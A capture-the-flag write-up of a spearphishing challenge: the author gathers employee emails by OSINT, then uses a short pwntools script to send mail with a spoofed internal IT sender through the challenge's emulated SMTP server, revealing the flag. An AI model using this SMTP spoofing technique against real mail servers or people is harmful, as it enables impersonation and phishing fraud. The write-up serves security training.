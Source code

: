 ## Name: Red Phish Blue Phish
#### Author: Truman Kain (@truman.huntress), Adam Rice (@adam.huntress)
#### Category: Misc
#### Difficulty: N/D
#### Description: You are to conduct a phishing excercise against our client, Pyrch Data.

We've identified the Marketing Director, Sarah Williams (swilliams@pyrchdata.com), as a user susceptible to phishing.

Are you able to successfully phish her? Remember your OSINT ;)

NOTE: The port that becomes accessible upon challenge deployment is an SMTP server. Please use this for sending any phishing emails.

You will not receive an email/human response as the mail infrastructure for this challenge is emulated.

## Procedure
The chall talks about a spearphishing attack and our target user is Sarah Williams with the email ```swilliams@pyrchdata.com```, the chall says ```remember ur OSINT```, so we have to investigate about Sarah and the company pyrchdata.

After looking for pyrchdata at internet, we have found a list of company employees, we can see the employees name and lastname, and using the email ```swilliams@pyrchdata.com```, we just need the first letter of the firstname and their lastname to build our email list. 

![Screenshot 2024-10-25 at 8 24 06 AM](https://github.com/user-attachments/assets/0119ee7e-8130-46a6-af77-7e7bd1e9d727)

the chall gives us a remote intances, and the remote instance is a smtp service ```pyrchdata email server```, from here we can try spoof the IT email Joe Daveren using ```MAIL FROM:<fake@pyrchdata.com>``` from smtp server.

I wrote the following python code to recover the flag.

```
from pwn import *
context(log_level='debug')
r = remote('challenge.ctf.games', 32439)

r.sendlineafter(b'SMTP 1.4.6',b'ehlo pyrchdata.com')
r.sendlineafter(b'HELP\r\n',b'mail from:<jdaveren@pyrchdata.com>')
r.sendlineafter(b'OK',b'rcpt to:<swilliams@pyrchdata.com>')
r.sendlineafter(b'OK',b'DATA')
r.sendlineafter(b'with',b'hello from hell')
r.sendline(b'\r\n.\r')

r.interactive()
```

<img width="1341" alt="Screenshot 2024-11-03 at 10 58 30 PM" src="https://github.com/user-attachments/assets/cd6714af-e61c-435f-a602-220b588ed212">

flag ```flag{54c6ec05ca19565754351b7fcf9c03b2}```


